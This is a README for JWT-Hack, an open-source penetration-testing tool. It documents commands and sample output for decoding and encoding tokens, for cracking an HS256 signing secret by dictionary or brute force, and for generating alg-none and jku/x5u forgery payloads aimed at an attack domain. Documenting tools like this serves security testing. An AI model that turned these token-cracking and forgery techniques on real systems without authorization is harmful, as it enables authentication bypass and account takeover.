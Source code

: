 <h1 align="center">
  <br>
  <a href=""><img src="https://user-images.githubusercontent.com/13212227/91675684-26561500-eb78-11ea-9f59-d904d743afae.png" alt="" width="260px;"></a>
  <br>
  Hack the JWT(JSON Web Token)
  <br>
  <img src="https://img.shields.io/badge/version-v2.0.0-blue">
  <img src="https://img.shields.io/badge/license-MIT-green">
  <a href="https://twitter.com/intent/follow?screen_name=hahwul"><img src="https://img.shields.io/twitter/follow/hahwul?style=flat&logo=twitter"></a>
</h1>

## About
JWT-Hack is a tool for testing and analyzing JSON Web Tokens. This is the Rust implementation (v2.0.0) of the original Go-based JWT-Hack tool, providing better performance and additional features.

## Installation

### From source
```
# Clone the repository
git clone https://github.com/hahwul/jwt-hack
cd jwt-hack/rust-jwt-hack

# Build and install
cargo build --release
cargo install --path .
```

### Cargo
```
cargo install jwt-hack
```

### Future installation methods
Coming soon:
- Homebrew
- Snapcraft

## Usage
```
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
Hack the JWT(JSON Web Token) | by @hahwul | v2.0.0

Usage:
  jwt-hack [command]

Available Commands:
  crack       Cracking JWT Token
  decode      Decode JWT to JSON
  encode      Encode json to JWT
  help        Help about any command
  payload     Generate JWT Attack payloads
  version     Show version

Flags:
  -h, --help   help for jwt-hack
```

## Encode mode (JSON to JWT)
```
▶ jwt-hack encode '{"json":"format"}' --secret={YOUR_SECRET}
```

e.g
```
▶ jwt-hack encode '{"test":"1234"}' --secret=asdf
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Encoded result                                algorithm=HS256
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXN0IjoiMTIzNCJ9.JOL1SYkRZYUz9GVny-DgoDj60C0RLz929h1_fFcpqQA
```

## Decode mode (JWT to JSON)
```
▶ jwt-hack decode {JWT_CODE}
```

e.g
```
▶ jwt-hack decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Decoded data(claims)                          header="{\"alg\":\"HS256\",\"typ\":\"JWT\"}" method="&{HS256 5}"
{
  "iat": 1516239022,
  "name": "John Doe",
  "sub": "1234567890"
}
```

## Crack mode (Dictionary attack / BruteForce)
```
▶ jwt-hack crack -w {WORDLIST} {JWT_CODE}
```

e.g
```
▶ jwt-hack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA -w samples/wordlist.txt

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
[*] Start dict cracking mode
INFO[0000] Loaded words (remove duplicated)              size=16
INFO[0000] Invalid signature                             word=fas
INFO[0000] Invalid signature                             word=asd
INFO[0000] Invalid signature                             word=1234
INFO[0000] Invalid signature                             word=efq
INFO[0000] Invalid signature                             word=asdf
INFO[0000] Invalid signature                             word=2q
INFO[0000] Found! Token signature secret is test         Signature=Verified Word=test
INFO[0000] Invalid signature                             word=dfas
INFO[0000] Invalid signature                             word=ga
INFO[0000] Invalid signature                             word=f
INFO[0000] Invalid signature                             word=ds
INFO[0000] Invalid signature                             word=sad
INFO[0000] Invalid signature                             word=qsf
...
INFO[0000] Invalid signature                             word=password
INFO[0000] Invalid signature                             word=error
INFO[0000] Invalid signature                             word=calendar
[+] Found! JWT signature secret: test
[+] Finish crack mode
```

## Bruteforce mode
```
▶ jwt-hack crack -m brute {JWT_CODE} --max=4
```

## Payload mode (Alg none attack, etc.)
```
▶ jwt-hack payload {JWT_CODE}
```

For jku and x5u (what is? [readme this slide](https://www.slideshare.net/snyff/jwt-jku-x5u)):
* `--jwk-attack` : An attack payload domain for jku&x5u (e.g hahwul.com)
* `--jwk-trust` : A trusted domain for jku&x5u (e.g google.com)
* `--jwk-protocol` : jku&x5u protocol (http/https) (default "https")

e.g
```
▶ jwt-hack payload eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.5m9zFPGPU0LMdTTLCR7jXMP8357nNAa0z8ABJJE3r3c --jwk-attack attack.hahwul.com --jwk-protocol https --jwk-trust trust.hahwul.com

INFO[0000] Generate none payload                         header="{\"alg\":\"none\",\"typ\":\"JWT\"}" payload=none
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhBSFdVTCIsInJlZnJlc2hfdG9rZW4iOiJhYmNkMTIzNDU0NjQiLCJpYXQiOjE1MTYyMzkwMjJ9.

...
```

## Performance Improvements in v2.0.0 (Rust version)

The Rust implementation offers:
1. **Faster execution** - Particularly noticeable in crack mode with large wordlists
2. **More memory efficient** - Uses less memory for the same operations
3. **Better concurrency** - Utilizes Rust's concurrency model for optimal performance
4. **Improved error handling** - More robust error handling with detailed messages

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## License

MIT License